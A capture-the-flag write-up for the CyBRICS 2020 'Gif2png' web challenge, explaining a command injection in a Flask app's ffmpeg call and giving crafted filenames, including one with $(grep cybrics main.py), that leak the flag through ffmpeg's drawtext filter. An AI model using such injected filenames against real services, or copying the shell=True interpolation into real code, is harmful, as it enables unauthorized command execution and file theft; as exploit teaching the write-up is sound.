

# Gif2png

Category: Web

>  The webdev department created another cool startup. Here you can convert any animated GIF to PNG images. It's only left to figure out how to monetize it: [**gif2png-cybrics2020.ctf.su/**](http://gif2png-cybrics2020.ctf.su/) 
>
> Sources are [available](main.py)

Looking at the code, the site uses ffmpeg to turn GIFs into their constituent PNG frames. There are several checks before the gif is accepted:

- Filename must end in `.gif`
- Filename must match `^[a-zA-Z0-9_\-. '"=$()|]*$` and not contain `..`
- Content type must be `image/gif` (checked twice)

Given the mime type is checked twice, the exploit is unlikely to be related to the image data itself.

The interesting part of the code is the ffmpeg command:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

Raw string interpolation is used. This is a command injection vulnerability. By changing the filename, can modify the command executed arbitrarily.

According to the source, the flag is in main.py. Hence, reading this file is our aim.

Next, we must find a way to exfiltrate the flag. I found the [`drawtext`](https://hhsprings.bitbucket.io/docs/programming/examples/ffmpeg/drawing_texts/drawtext.html) filter that allows us to draw arbitrary text on the output image. By specifying the `textfile` or `text` arguments, we can draw the flag on the image.

I found a [blank gif](blank.gif) that allows us to read the flag easily. `blank.gif` must be uploaded first.

```python
filename = "blank.gif' -vf 'drawtext=text=hello.gif"
command = """ffmpeg -i 'uploads/blank.gif' -vf 'drawtext=text=hello.gif' "uploads/{uid}/%03d.png" """
```

Yay, the text is drawn on the output image!

The biggest challenge was reading the `main.py` file while fulfilling all the requirements, especially that the filename end in `.gif`. After some trial and error, I found the [metadata](https://wiki.multimedia.cx/index.php/FFmpeg_Metadata) command that accepts arbitrary input.

```python
filename = "blank.gif' -vf 'drawtext=textfile=main.py' -metadata title='hello.gif"
command = """ffmpeg -i 'uploads/blank.gif' -vf 'drawtext=textfile=main.py' -metadata title='hello.gif' "uploads/{uid}/%03d.png" """
```

To my surprise, the output images came out blank! Perhaps the contents of `main.py` was too long to draw on the image. We needed to extract the flag from `main.py` and draw that only. I looked back to the code and spotted

```python
subprocess.Popen(..., shell=True)
```

Perhaps we can use shell command interpolation!

```python
filename = """blank.gif' -vf "drawtext=text=$(grep cybrics main.py)" -metadata title='hello.gif"""
```

Yay!



Flag: `cybrics{imagesaresocoolicandrawonthem}`